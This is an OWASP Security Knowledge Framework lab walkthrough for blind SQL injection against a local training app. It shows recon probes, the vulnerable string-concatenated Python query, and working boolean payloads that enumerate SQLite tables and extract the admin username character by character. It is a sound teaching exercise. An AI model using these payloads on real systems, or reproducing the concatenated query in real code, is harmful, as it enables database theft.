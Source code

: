 # KBID 156 - SQLI \(Blind\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-blind
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](.gitbook/assets/sqli-blind-1.png)

```text
http://127.0.0.1:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-blind-2.png)

```text
http://127.0.0.1:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-blind-3.png)

```text
http://127.0.0.1:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false \(and 1=2\). This should result in the application returning an error.

![](.gitbook/assets/sqli-blind-4.png)

```text
http://127.0.0.1:5000/home/1 AND 1=2--
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](.gitbook/assets/sqli-blind-6.png)

```text
http://127.0.0.1:5000/home/1
```

![](.gitbook/assets/sqli-blind-5.png)

```text
http://127.0.0.1:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](.gitbook/assets/sqli-blind-7.png)

```text
http://127.0.0.1:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](.gitbook/assets/sqli-blind-9.png)

```text
http://127.0.0.1:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](.gitbook/assets/sqli-blind-8.png)

### Step 4

From the _user_ table is possible to see that the table contains the columns _UserId_ , _UserName_ and _Password_

![](.gitbook/assets/sqli-blind-10.png)

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](.gitbook/assets/sqli-blind-11.png)

```text
http://127.0.0.1:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](.gitbook/assets/sqli-blind-12.png)

```text
http://127.0.0.1:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```text
http://127.0.0.1:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```text
http://127.0.0.1:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```text
http://127.0.0.1:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```text
http://127.0.0.1:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys\_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)

